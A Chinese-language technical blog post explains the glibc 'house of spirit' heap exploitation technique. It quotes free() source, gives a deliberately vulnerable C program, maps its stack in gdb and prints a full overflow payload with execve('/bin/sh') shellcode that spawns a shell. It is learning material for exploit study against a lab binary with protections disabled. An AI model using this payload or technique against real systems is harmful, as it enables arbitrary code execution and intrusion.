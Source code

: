 ```yaml
---
title: house of spirit
date: 2016-10-18 08:16:26
tags: 
- heap
- exploit
categories:
- heap_exploit
---
```


最近几天有点忙，实在是没多少时间写博客，但是还是抽出点时间来记录一下，养成个好习惯！
今天记录的house of spirit跟stack有关，但是核心部分依然是堆的free。但中间遇到个问题，直接执行程序得不到shell，但是我用gdb调试最后却得到了shell......不知道为什么。

## 利用条件

1. p = malloc(n),栈溢出能覆盖p。
2. free(p)时，可以控制这个伪造chunk的size字段，同时可以控制next chunk的size字段。
3. q = malloc(n)，n经过request2size(n)转化后等于上一次伪造的size。
4. 可以控制指针q指向的内存。
<!-- more -->
## 利用详解

house of spirit其实就是通过栈溢出伪造一个chunk，然后free，然后malloc，使得可以对栈上的返回地址进行任意写。
首先覆盖p为栈上的地址(需要进过计算)。要注意的是，应该对相邻的下一个chunk的size字段进行适当操作，其大小要合适，且pre_inuse(for fastbin, pre_inuse always equals 1)位置1，因为在释放伪造的chunk时，会进行相关检查。

```c
void
_int_free(mstate av, Void_t* mem)
{
  mchunkptr       p;           /* chunk corresponding to mem */
  INTERNAL_SIZE_T size;        /* its size */
  mfastbinptr*    fb;          /* associated fastbin */

  [...]

  p = mem2chunk(mem);
  size = chunksize(p);

  [...]

  /*
    If eligible, place chunk on a fastbin so it can be found
    and used quickly in malloc.
  */

  if ((unsigned long)(size) <= (unsigned long)(av->max_fast)

  #if TRIM_FASTBINS
      /*
	If TRIM_FASTBINS set, don't place chunks
	bordering top into fastbins
      */
      && (chunk_at_offset(p, size) != av->top)
  #endif
      ) {

    //to check if the next chunk's size is OK~~~

    if (__builtin_expect (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ, 0)
	|| __builtin_expect (chunksize (chunk_at_offset (p, size))
			     >= av->system_mem, 0))
      {
		errstr = "free(): invalid next size (fast)";
		goto errout;
      }

    [...]
    fb = &(av->fastbins[fastbin_index(size)]);
    [...]
    p->fd = *fb;
    *fb = p;
  }
```
如果要说为什么是跟fastbin有关，我觉得这就不一定了。这要看后面第二次malloc时的大小了。至于如果后面malloc的大小大于fastbin的max了，我就不知道能不能利用成功了。
接着free时，glibc会将伪造的chunk link到fastbin中。然后malloc时返回的地址将是栈上的地址，当你可以对malloc返回地址写数据时，可以覆盖return address为shellcode的地址。

## 利用举例

任何利用方式只有举个例子才明白，所以还是来点实际的吧

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void vuln(char *str1, int age)
{
  char *ptr1, name[44];
  int local_age;
  char *ptr2;

  local_age = age;

  ptr1 = (char *) malloc(256);
  printf("\nPTR1 =  %p ", ptr1);
  strcpy(name, str1);
  printf("\nPTR1 =  %p \n", ptr1);

  free(ptr1);

  ptr2 = (char *) malloc(40);
  printf("\nPTR2 =  %p \n", ptr2);

  snprintf(ptr2, 40-1, "%s is %d years old", name, local_age);
  printf("\n%s\n", ptr2);
}

int main(int argc, char *argv[])
{
  int pad[10];
  int i;
  for(i = 0; i < 10; i ++)
  { 
    pad[i] = 0x21;   //to satisfy the next chunk's size
  }

  if (argc == 3)
  {
    vuln(argv[1], atoi(argv[2]));
  }

  return 0;
}
```

默认是关闭DEP，ALSR，和stack protector的。
首先用gdb调试确定各个变量的位置:
<img src="http://of38fq57s.bkt.clouddn.com/spirit_set_args.PNG" >
<img src="http://of38fq57s.bkt.clouddn.com/spirit_find_place.PNG" >
由图我们可以得到各变量的位置如下：
```c
|----------|
|..........|
|..name[]..| <----0xbffff378
|..........|
|..name[]..|
|..ptr2....| <----0xbffff3a4
|..ptr1....| <----0xbffff3a8
|..localage| <----0xbffff3ac
|..........| <----0xbffff3b0
|..........|
|..........|
|.main ebp.| 
|.ret addr.|
|.argv[2]..|
|.argv[1]..|
|..........|
|...pad[]..| <----0xbffff3de
```

localage变量是伪造chunk的size字段，大小等于0x30。覆盖p为0xbffff3b0，当free时，glibc会把0xbffff3a8 link到fastbin中，这会检查后一个相邻chunk的size字段，我们已经填充了，即pad[]。然后后面malloc(40)时，会把0xbffff3b0返回给用户。然后我们可以对相应栈区进行写操作，覆盖ret addr为shellcode地址。
此时malloc返回地址离ret addr还有12个字节。所以这部分要填充。然后是返回地址0xbfffff378(of course you can jump the right shellcode address), 前面"\xeb\x0e"是jmp到shellcode的位置，即从"\x6a"开始部分。
所以argv[1]的内容为：
```python
"\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x78\xf3\xff\xbf\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"a"*8+"\xb0\xf3\xff\xbf\x30"
```
至于argv[2]取什么值没影响。
我们能看到第二次p被覆盖为0xbffff3b0，且第二次malloc时返回的地址为0xbffff3b0。最后我们得到了一个shell！！！

<img src="http://of38fq57s.bkt.clouddn.com/spirit_shell.PNG">

不知道为什么直接运行程序得不到shell：
<img src="http://of38fq57s.bkt.clouddn.com/spirit_error.PNG">
这真的很奇怪......一步一步调试发现free()可以正常执行啊。Anyway, got a shell at last!

## 相关参考

相关链接：
[Heap overflow using Malloc Maleficarum](https://sploitfun.wordpress.com/tag/house-of-force/)
[X86 EXPLOITATION 101: “HOUSE OF SPIRIT” – FRIENDLY STACK OVERFLOW](https://gbmaster.wordpress.com/2015/07/21/x86-exploitation-101-house-of-spirit-friendly-stack-overflow/)

